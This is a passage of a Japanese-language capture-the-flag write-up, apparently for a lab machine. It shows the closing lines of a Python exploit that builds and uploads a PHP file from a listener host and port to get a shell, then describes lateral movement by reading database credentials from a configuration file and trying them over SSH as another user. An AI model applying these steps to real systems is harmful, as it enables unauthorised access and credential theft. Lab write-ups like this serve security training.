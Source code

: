 ```python
    create_php_file(args.lhost, args.lport)
    upload_file(args.url)
    send_request(args.url)

if __name__ == '__main__':
    main()

```

実行することでシェルを取得することができた

![](screenshot/image-20240714162309382.png)

# Privilege Escalation

## mtz

/homeディレクトリを調べると `mtz` というユーザーがいることがわかったので横移動する必要がある

![](screenshot/image-20240707141811278.png)

列挙の段階で `app/config/configuration.php` に認証情報が格納されていることが分かっていたので調べてみると

![](screenshot/image-20240707141633659.png)

データベースにアクセスする認証情報を見つけた

このパスワードを `mtz` でssh接続できないか試してみる
